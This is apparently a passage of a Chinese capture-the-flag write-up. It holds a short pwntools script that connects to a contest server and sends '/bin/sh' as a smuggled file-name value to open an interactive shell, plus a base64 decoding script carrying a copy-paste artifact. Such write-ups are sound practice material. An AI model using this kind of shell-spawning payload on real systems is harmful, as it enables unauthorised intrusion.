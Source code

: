 ls

cd home

cd ctf

cat flag

得flag：SYC{8af69ab4-3ef0-48f9-b4b6-5f9675fdfe05}

## over_flow??

```python
from pwn import *

# 连接到远程服务

p = remote('nc1.ctfplus.cn', 42635)

file = b'./flag'

pay = b'\x2F\x62\x69\x6E\x2F\x73\x68\x00\x3b'

binsh = b'\x2F\x62\x69\x6E\x2F\x73\x68'

# 系统调用号直接获得shell

p.sendline(b'2')

p.sendlineafter(b"please input file name",pay)

p.interactive()
```

得flag：flag{196c7fa5-c943-44d8-95e9-6615a04eb610}

## ez_jpg

写一个base64脚本改变源代码：

下面是一个Python脚本，将文件中的Base64编码的文本解码后保存到另一个文件中：

```python
python复制代码import base64

def decode_base64(input_file, output_file):
    try:
        # 读取输入文件内容
        with open(input_file, 'r') as f:
            encoded_data = f.read()
        
        # 对Base64编码的内容进行解码
        decoded_data = base64.b64decode(encoded_data)
        
        # 将解码后的内容写入输出文件
        with open(output_file, 'wb') as f:
            f.write(decoded_data)
        
        print(f"Base64解码完成，结果已保存到 {output_file}")
    
    except Exception as e:
        print(f"出现错误: {e}")

# 示例用法
input_file = 'flag.txt'  # 输入文件名
output_file = 'jpg.txt' # 输出文件名

```